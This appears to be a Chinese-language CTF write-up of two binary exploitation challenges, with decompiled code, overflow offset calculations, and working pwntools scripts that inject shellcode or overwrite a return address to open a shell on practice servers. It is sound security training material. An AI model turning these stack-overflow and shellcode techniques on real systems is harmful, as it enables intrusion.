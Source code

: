 # PWN challenges

## [NewStarCTF 公开赛赛道]ret2shellcode

这是一道ret2shellcode的题型，但是通过checksec发现启用`PIE`保护，不能在`.bss`段写入`shellcode`

> <img src="./img_c/1.png">

查看`IDA`反编译信息

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[40]; // [rsp+0h] [rbp-30h] BYREF
  void *buf; // [rsp+28h] [rbp-8h]

  init(argc, argv, envp);
  buf = mmap((void *)0x233000, 0x1000uLL, 7, 34, -1, 0LL);
  puts("Hello my friend.Any gift for me?");
  read(0, buf, 0x100uLL);
  puts("Anything else?");
  read(0, v4, 0x100uLL);
  puts("Ok.See you!");
  return 0;
}
```

- 第7行`mmap()`创建了一个缓冲区`buf`，大小为`0x1000`字节，重点是拥有`7`权限，即`rwx`权限

- 第9行向缓冲区`buf`中写入数据，总长度`0x100`字节
- 第11行向缓冲区`v4`写入数据，总长度`0x100`字节

根据`IDA`的分析来说，既然`buf`拥有`rwx`权限，那么我们可以向`buf`中写入`shellcode`，但是不能直接溢出`buf`，因为第一个`read()`限制了写入的数据长度`0x100`，该长度远远小于`buf`允许的最大长度`0x1000`，因此需要利用第二个`read()`，第二个`read()`写入的缓冲区`v4`仅有40字节，完全满足溢出条件

同时，`mmap()`函数也指定了缓冲区的内存地址`0x233000`，这一点也可以在`pwndbg`中验证

> <img src="./img_c/2.png">

然后计算从`v4`到`rbp`的长度

> <img src="./img_c/3.png">

从上图可以得出，从`rsp`到`rbp`共`0x30`个字节，加上`rbp`本身8字节，共需要溢出`0x38`个字节，下面是攻击脚本

```py
from pwn import *

context.arch = 'amd64'

buf_addr = 0x233000
shellcode = asm(shellcraft.amd64.sh())
payload = b'A' * 0x38 + p64(buf_addr)

io = remote('node5.buuoj.cn', 28144)
io.sendline(shellcode)
io.recv()
io.sendline(payload)
io.interactive()
```

运行脚本，得到flag

> <img src="./img_c/4.png">

## pwn1_sctf_2016 1

主要看`vuln()`函数

```c
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  _BYTE v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  _BYTE v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  _BYTE v6[7]; // [esp+48h] [ebp-10h] BYREF
  _BYTE v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace(v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = std::string::c_str(&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```

大致内容是`fgets()`接收32字节的输入，传入`s`字符数组，然后执行替换函数`replace`，将`s`中的`I`替换为`you`，最后通过`strcpy()`将替换的结果返还`s`字符数组

这道题便是利用替换函数进行溢出，`s`位于`ebp - 0x3C`的位置，即60字节，只需要传入20个`I`，经过替换函数替换为20个`you`，然后拼接`ebp`和`ret_addr`即可，这道题的`ret_addr`是`get_flag()`函数，位于`0x08048F0D`

```c
int get_flag()
{
  return system("cat flag.txt");
}
```

因此脚本为

```py
from pwn import *

# sh = process('./pwn1_sctf_2016')
sh = remote('node5.buuoj.cn', 25308)

binsh = 0x8048F0D
payload = flat([b'I' * 20, b'aaa', binsh])
sh.sendline(payload)
sh.interactive()
```

> <img src="./img_c/5.png">


